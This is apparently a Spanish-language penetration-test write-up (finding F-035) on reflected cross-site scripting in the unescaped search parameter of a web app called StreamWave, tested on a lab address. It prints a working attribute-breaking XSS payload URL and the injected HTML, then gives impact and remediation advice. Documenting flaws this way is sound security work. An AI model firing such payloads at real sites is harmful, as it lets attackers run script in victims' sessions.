


# 🔎 F-035 — XSS reflejado en el buscador (`?q=`), sin autenticación

   

> [!IMPORTANT]
> El parámetro `q` se refleja en dos sitios con saneado inconsistente: en el `<h1>` de resultados se escapa bien, pero en el atributo `value` del propio `<input>` del buscador **no se escapa en absoluto**. Un payload que cierre la comilla del atributo inyecta HTML/JS real en la página.

## 🔬 Explotación paso a paso

Un primer intento con `<script>alert(1)</script>` (sin cerrar antes la comilla del atributo) **no** dispara nada — queda como texto inerte dentro de `value="..."`:



El payload correcto cierra la comilla y el tag **antes** de inyectar:

```
http://172.17.0.2:9090/?q="><script>alert(document.domain)</script>
```



Alerta real ejecutada, mostrando `document.domain` (`172.17.0.2`).

HTML generado (confirmado por curl, sin sesión):
```html
<input name="q" value=""><script>alert(document.domain)</script>" placeholder="Search videos"
```

De control, el mismo valor en el `<h1>` de resultados sí se escapa correctamente:
```
Results for “&lt;script&gt;alert(1)&lt;/script&gt;”
```

## 💥 Impacto

- Ejecución de JS arbitrario en el origen de StreamWave con solo que la víctima abra un enlace — sin necesitar que tenga cuenta.
- Si la víctima tiene sesión activa, aplica el mismo patrón de session-riding que [F-033](F-033-upload-xss-streamwave.md) (peticiones `fetch` same-origin), pero sin necesitar subir nada.
- Saneado inconsistente entre puntos de reflejo de un mismo parámetro — patrón ya visto en otras apps del cliente.

## 🛡️ Remediación

- Escapar cualquier dato de usuario en todos los puntos de inserción en el HTML, incluidos los atributos — no solo el contenido de texto visible.
- Motor de plantillas con auto-escaping por defecto.
- CSP (`script-src 'self'`, sin `'unsafe-inline'`) como capa adicional.

---
⬅ [Volver al índice de writeups](README.md) · [README principal](../README.md) · [Informe técnico (PDF)](../docs/informe-BigShop.pdf)
